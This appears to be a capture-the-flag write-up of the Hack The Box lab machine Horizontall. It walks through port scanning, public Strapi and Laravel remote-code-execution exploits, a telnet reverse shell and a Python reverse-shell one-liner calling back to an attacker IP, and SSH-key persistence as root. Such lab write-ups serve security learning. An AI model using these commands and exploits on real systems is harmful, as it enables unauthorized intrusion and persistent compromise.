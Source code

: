 # Horizontall

Horizontall is an easy Linux machine that was released on 28/08/2021.

**Note**: this write-up is quite short and concise as it's based on really brief notes that were taken just for convenience during the pwning of the machine. 

## Enumeration

As usual we start by performing a port scan with nmap

```
nmap -A 10.10.11.105 -p- | tee portscan.txt

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 18:37 EDT
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.066s latency).
Not shown: 65450 closed ports, 83 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2501.38 seconds
```

The website is using Vue.js

Taking a look at the js source files, and in particular at `http://horizontall.htb/js/app.c68eb462.js` we can find another interesting url

http://api-prod.horizontall.htb/reviews

We add api-prod.horizontall.htb to our `/etc/hosts` file 

We launch gobuster in dir mode and we discover an 'admin' page with a login form

## Foothold
The CMS of the API seems to be Strapi. With a bit of google-fu, we find out that we can obtain the CMS version by requesting the page `admin/init`, which returns


```json
{
  "data": {
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
    "currentEnvironment": "development",
    "autoReload": false,
    "strapiVersion": "3.0.0-beta.17.4"
  }
}
```

Luckily, there's a RCE exploit for this version which uses CVE-2019-18818, CVE-2019-19609

 - CVE-2019-18818 -
strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js. 

 - CVE-2019-19609 -
The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function. 

https://www.exploit-db.com/exploits/50239

python3 exploit.py http://api-prod.horizontall.htb/

we can get a basic reverse shell with

`telnet 10.10.15.42 4242 | /bin/sh | telnet 10.10.15.42 4243`

Now we can copy passwd file and see that the user we want to move to is 'developer'

We can already read user.txt

To improve our shell, we add our own pub key to scrapi authorized_keys file

Now we can ssh into the machine as scrapi.

## Privesc
We run linpeas.sh
```
Some home ssh config file was found
/usr/share/openssh/sshd_config 

-rwsr-xr-x 1 root root 146K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable 

╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                                  
drwxr-xr-x 2 root root 4096 May 25 11:17 /etc/ldap

---
```

Let's take a look inside the myapi folder in scrapi home directory

It looks like a laravel application. 

We find a MySQL password for user developer in `/opt/strapi/myapi/config/environments/development/database.json`

`#J!:F9Zt2u`

We login into mysql and check the strapi database.
There is a table called strapi_administrator

```
mysql> SELECT * FROM strapi_administrator;
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$lMlVj43na5k/ykuJKGu8AeoGnRUGpEVme9zTsiCGwmq7LvknSthLe | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
1 row in set (0.00 sec)
```

That's just the hash of the password we set with the exploit for strapi, we don't need it.

If we run 

`netstat -tulpn | grep LISTEN`

we have a list of all the services which are listening on ports
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1875/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```

Ports 80 and 22 are the ones we have see from the nmap scan and are open (the address is 0.0.0.0)

The one on port 3306 is just the MySQL server.
The one running on 1337 is the one we reach with api-prod.

There's another one on port 8000. If we try to curl it from the machine we get a welcome page.
Let's create an ssh tunnel to reach this page from our local attacking machine.

We run, on our local machine:

`ssh strapi@horizontall.htb  -L 8001:localhost:8000`

where localhost is because the server we are connecting to is the same that hosts the service we want to reach on port 8000,
8000 is the port we want to be forwarded, and 8001 is the port we will use in the URL on our local browser

Now we can access the webpage from our browser at localhost:8001 and we discover that it's a Laravel web page.

We try to run gobuster but the server stops responding to our requests after a while (maybe we're being rate-limited?)

Anyway, gobuster ran long enough to show us that the 'profiles' page returns a 500

If we try to access the page, we are returned some kind of debugging page

Exploring the web page a bit we find out that the Laravel version is 8.43.0

exploit-db gives us an RCE exploit for Laravel 8.4.2, let's give it a try

https://www.exploit-db.com/exploits/49424
```
Usage:  laravel_exploit.py url path-log command

        Ex: laravel_exploit.py http(s)://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log 'id'

```

We need the location of the `laravel.log` file

From the debug page we can understand the the base Laravel directory is `/home/developer/myproject/`

so the log path for the script will be `/home/developer/myproject/storage/logs/laravel.log`

The complete command is

```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'id'
```

Output:
```
Exploit...

uid=0(root) gid=0(root) groups=0(root)
```

Ok, nice, we have RCE as root on the machine and we can immediately get root.txt

```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'cat /root/root.txt'

```
To get a reverse shell what I did is create a script in a temp directory with the following code
```sh
export RHOST="10.10.15.42";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
and then calling 
```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'bash /tmp/tmp.QcRAAzgyjr/shell.sh'
```

It took a couple of tries launching the same exact command to have a shell, not sure why.

Unfortunately the connection closes after a while, but to get persistent access we can just add our SSH id_rsa.pub file into

`/root/.ssh/authorized_keys`



